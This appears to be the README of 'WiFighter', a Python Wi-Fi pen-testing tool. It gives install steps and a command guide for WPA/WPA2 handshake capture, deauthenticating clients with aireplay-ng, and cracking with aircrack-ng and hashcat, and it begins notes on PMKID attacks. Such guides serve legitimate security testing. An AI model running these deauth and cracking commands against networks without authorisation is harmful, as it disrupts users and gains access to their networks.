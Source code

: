 # WiFighter
Easy-to-use WiFI pen-testing/scanning tool written in python


## Installation 

**Dependencies**
```c
sudo zypper in python3 aircrack-ng hashcat ...

```
- REAVER: githubproject

**Creating python virtual enviroment**

Clone the project
```c
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```c
cd WiFighter
```

Create virtual enviroment
```c
python3 -m venv venv
```

Enter the virtual enviroment
```c
source venv/bin/activate
```

Install python modules (prettytable, psutil, scapy) 
```c
pip3 install -r requirements.txt
```

Exit from virtual enviroment
```c
deactivate
```

Run the tool
```c
sudo ./wifighter.py
```


## WiFi Scan & Select
- WPS scan?

## Attacking
- wps cracking (testing)
- client jamming, oading animation on jamming

## Future visions
- mazat prazdne/nechycene handshaky z attacks
- Utilize hashcat & xctools - HW acc. cracking & generating wordlists, conversions?
- vyber vice wordlistu najednou?


### 1. WPA/WPA2 Handshake Crack

**Aircrack guide**
- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

**Monitor mode**

Set interface to monitor
```c
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```c
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```c
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```c
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```c
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```c
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake - aircrack**

```c
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```

**Crack handshake - hashcat**

Convert captured handshake to hashcat format
```c
sudo aircrack-ng -J <OUTPUTFILE> <HANDSHAKE>.cap  
```

Crack with wordlist
```c
sudo hashcat -m 22000 <HANDSHAKE>.hccap <WORDLIST>
```


### 2. PMKID Attack (802.11r exploit)

**Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature**

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

**Installation**

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```




